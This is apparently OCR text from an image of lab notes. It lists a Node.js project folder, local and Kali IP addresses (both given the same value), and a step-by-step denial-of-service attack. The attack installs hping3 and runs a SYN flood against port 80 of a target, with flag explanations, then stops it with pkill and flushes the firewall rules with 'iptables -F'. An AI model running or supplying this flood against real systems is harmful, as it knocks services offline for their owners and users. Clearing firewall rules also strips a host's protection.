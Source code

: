 /project-folder
├── node_modules/
├── nodejs-logs/
│ ├── access.log
│ └── error.log
├── models/
├── config/
├── routes/
├── server.js
├── .env
├── package.json
├── docker-compose.yml

IP Local : 192.168.73.1

IP Kali: 192.168.73.1

Step by step hack (DoS) flood Network Traffic
———————————————————————

sudo apt install hping3 -y

hping3 -S -p 80 --flood <Target_IP>

    ◦	-S: SYN packets.
    ◦	-p 80: Target port 80 (web server).
    ◦	--flood: Sends packets as fast as possible.

Stop attacking
————————
pkill hping3

sudo iptables -F
